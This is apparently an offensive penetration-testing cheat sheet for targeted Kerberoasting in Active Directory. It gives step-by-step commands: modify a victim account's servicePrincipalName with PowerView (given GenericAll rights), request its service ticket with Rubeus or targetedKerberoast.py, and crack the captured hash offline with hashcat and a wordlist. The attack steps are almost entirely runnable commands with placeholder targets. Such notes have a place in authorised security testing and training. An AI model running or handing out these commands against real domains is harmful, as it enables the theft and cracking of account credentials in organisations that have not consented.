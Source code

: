 # Creating a `Fake SPN` to perform Kerberoasting
**Prerequisite**: The compromised user must have **GenericAll** rights over the target account (e.g., `mohamed`) to modify its `servicePrincipalName` (SPN).  

##### **Steps**:  
1. **Modify the SPN to Create a Fake Service**:  
   - Use PowerView's `Set-DomainObject` to add a fake SPN:  
     ```powershell
     Set-DomainObject -Credential $Cred -Identity TARGET_USER -SET @{serviceprincipalname='fake/service'} -Verbose
     ```  
     *(Replace `TARGET_USER`, e.g., `mohamed`, and customize the fake SPN, e.g., `notahacker/LEGIT`).*  

2. **Request the TGS Ticket for the Fake SPN**:  
   - Use **Rubeus** to Kerberoast the user and retrieve the hash:  
     ```powershell
     .\Rubeus.exe kerberoast /user:TARGET_USER /nowrap
     ```  
   - **Linux Alternative**: Use `targetedKerberoast.py` to automate SPN creation/harvesting:  
     ```bash
     targetedKerberoast.py -d DOMAIN -u USER -p PASSWORD --request-user mohamed
     ```  

3. **Crack the Hash Offline**:  
   - Use **Hashcat** to crack the Kerberoasted hash (e.g., `RC4_HMAC` type):  
     ```bash
     hashcat -m 13100 hash.txt /usr/share/wordlists/rockyou.txt
     ```  
